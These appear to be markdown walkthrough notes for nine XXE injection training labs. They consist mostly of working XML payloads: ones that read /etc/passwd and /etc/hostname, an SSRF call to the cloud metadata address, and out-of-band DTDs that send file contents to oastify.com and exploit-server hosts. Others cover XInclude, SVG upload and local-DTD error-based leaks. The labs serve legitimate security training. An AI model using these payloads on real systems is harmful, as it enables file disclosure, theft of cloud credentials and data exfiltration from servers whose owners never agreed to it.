

# Xxe Injection - Walkthroughs

## Lab 01: Exploiting XXE using external entities to retrieve files

Target Goal - Exploit XXE injection to retrieve the contents of the /etc/passwd file.

## Analysis

---

## Lab 02: Exploiting XXE to perform SSRF attacks

Target Goal - Exploit the XXE vulnerability to perform an SSRF attack and obtain the server's IAM secret access key

## Analysis

http://169.254.169.254/

---

## Lab 03: Blind XXE with out-of-band interaction

Target Goal - Exploit the blind XXE vulnerability and perform a DNS lookup and HTTP request to Burp Collaborator.

## Analysis

---

## Lab 04: Blind XXE with out-of-band interaction via XML parameter entities

Target Goal - Exploit blind XXE injection to issue a DNS lookup and HTTP request to Burp Collaborator.

## Analysis

---

## Lab 05: Exploiting blind XXE to exfiltrate data using a malicious external DTD

Target Goal - Exploit XXE injection to exfiltrate the content of the /etc/hostname file.

## Analysis

Burp Collaborator
------------------

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://8bkjkzuczie7f8yiooilk6010s6iu7.oastify.com/?X=%file;'>">
%eval;
%exfil;

Without Burp Collaborator
-------------------------

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0a36000204174338c4c637de0106008f.exploit-server.net/?X=%file;'>">
%eval;
%exfil;

---

## Lab 06: Exploiting blind XXE to retrieve data via error messages

Target Goal - Exploit blind XXE injection to to trigger an error message that displays the content of the /etc/passwd file.

Doesn't require BURP Collaborator

## Analysis

Regular Entity:
--------------

<!DOCTYPE test [<!ENTITY xxe SYSTEM "z332nczdwnr373gyvtgwiydz4qagy5.oastify.com">]>

Parameter Entity:
-----------------

<!DOCTYPE test [<!ENTITY % xxe SYSTEM "z332nczdwnr373gyvtgwiydz4qagy5.oastify.com"> %xxe;]>

Exfiltration of Data:
---------------------

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;

---

## Lab 07: Exploiting XInclude to retrieve files

Target Goal - Exploit XXE injection to retrieve the content of the /etc/passwd

## Analysis

<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

---

## Lab 08: Exploiting XXE via image file upload

Target Goal - Exploit XXE injection in the file upload functionality to display the content of the /etc/hostname file.

## Analysis

<?xml version="1.0" standalone="yes"?><!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/hostname">]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>

f466152c1a55

---

## Lab 09: Exploiting XXE to retrieve data by repurposing a local DTD

Target Goal - Exploit the XXE injection to trigger an error message containing the contents of the /etc/passwd file.

## Analysis

Regular entity:
--------------

<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>

Blind Regular entity:
---------------------

<!DOCTYPE test [<!ENTITY xxe SYSTEM "http://k9udhvjgzvaf2v2dlzdf10um5db3zs.oastify.com">]>

Parameter entity:
----------------

<!DOCTYPE test [<!ENTITY % xxe SYSTEM "http://k9udhvjgzvaf2v2dlzdf10um5db3zs.oastify.com"> %xxe;]>

Repurposing a Local DTD
-----------------------

<!DOCTYPE test [<!ENTITY % xxe SYSTEM "file:///etc/doesnotexit"> %xxe;]>

<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>

---

